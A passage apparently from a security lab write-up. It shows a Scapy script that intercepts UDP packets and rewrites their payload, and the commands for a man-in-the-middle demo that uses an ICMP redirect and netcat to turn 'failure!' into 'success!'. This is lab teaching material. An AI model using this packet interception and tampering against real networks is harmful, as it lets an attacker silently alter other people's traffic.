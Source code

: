 ```python
  # --- Packet Interception and Modification ---
  def spoof_pkt(pkt):
      if pkt.haslayer(IP) and pkt.haslayer(UDP) and pkt[IP].src == SRC_IP:
          if pkt[UDP].payload:
              data = bytes(pkt[UDP].payload)
              print(f"[>] Raw data: {repr(data)}")

              if FIND in data:
                  print(f"[+] Match found. Replacing data...")
                  newdata = data.replace(FIND, REPLACE)

                  # Rebuild and send packet
                  newpkt = IP(dst=pkt[IP].dst, src=pkt[IP].src) / \
                          UDP(dport=pkt[UDP].dport, sport=pkt[UDP].sport) / \
                          newdata
                  send(newpkt)
                  print("[+] Modified and sent new UDP packet\n")
              else:
                  print("[-] No target string found.\n")
          else:
              print("[-] UDP packet has no payload.\n")
      else:
          pass

  # --- Start sniffing UDP packets ---
  sniff(iface="eth0", filter="udp", prn=spoof_pkt)


```


* Now we need to make this script excutable on the Malicious router: 
  * > chmod a+x modify.py
* Then open a listening port on the host 5
  * > nc -lvnp 9090
* Connect to it from the victim 
  * > nc 192.168.60.5 9090
* Excute the ICMP redirection attack from the attacker device 
  * > python3 icmp_script.py
* Excute the modify.py packet on the malicious router
  * > python3 modify.py --src 10.9.0.5 -f "failure!" -r "success!"
* Now we can see from the screenshot, that the host recieves **Success** even when the victim sends **failure!**